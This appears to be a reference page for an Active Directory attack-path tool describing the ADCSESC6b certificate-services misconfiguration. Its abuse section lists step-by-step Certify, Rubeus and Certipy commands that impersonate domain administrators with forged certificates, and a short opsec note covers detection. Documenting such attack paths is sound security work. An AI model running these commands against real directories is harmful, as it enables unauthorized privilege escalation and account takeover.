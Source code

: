 ---
title: ADCSESC6b
description: The principal has permission to enroll on one or more certificate templates allowing for authentication.
---


<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 



They also have enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. The enterprise CA is configured with the EDITF_ATTRIBUTESUBJECTALTNAME2 flag allowing enrollees to specify a Subject Alternate Name (SAN) identifying another principal during certificate enrollment of any published certificate template. This setup allows an attacker principal to obtain a malicious certificate as another principal. There is an affected Domain Controller configured to allow weak certificate mapping enforcement, which enables the attacker principal to authenticate with the malicious certificate and thereby impersonating any AD forest user or computer without their credentials.

## Abuse Info

### Windows

Step 1: Use Certify to request enrollment in the affected template, specifying the affected certification authority and target principal to impersonate:

```bash
.\Certify.exe request /ca:rootdomaindc.forestroot.com\forestroot-RootDomainDC-CA /template:ESC6 /altname:ForestRootDA
```

If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 3: Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 2:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```

Step 4: Optionally verify the TGT by listing it with the klist command:

```bash
klist
```

### Linux

Step 1: Use Certipy to request enrollment in the affected template, specifying the affected
certification authority and target principal to impersonate:

```bash
 certipy req -u john@corp.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC6 -upn administrator@corp.local
```
If the enrollment fails with an error message stating that the Email or DNS name is unavailable and cannot be added to the Subject or Subject Alternate name, then it is because the enrollee principal does not have their 'mail' or 'dNSHostName' attribute set, which is required by the certificate template. The 'mail' attribute can be set on both user and computer objects but the 'dNSHostName' attribute can only be set on computer objects. Computers have validated write permission to their own 'dNSHostName' attribute by default, but neither users nor computers can write to their own 'mail' attribute by default.

Step 2: Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 1 and the IP of a domain controller::

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.16.126.128
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* Domain Escalation Edit Attributes
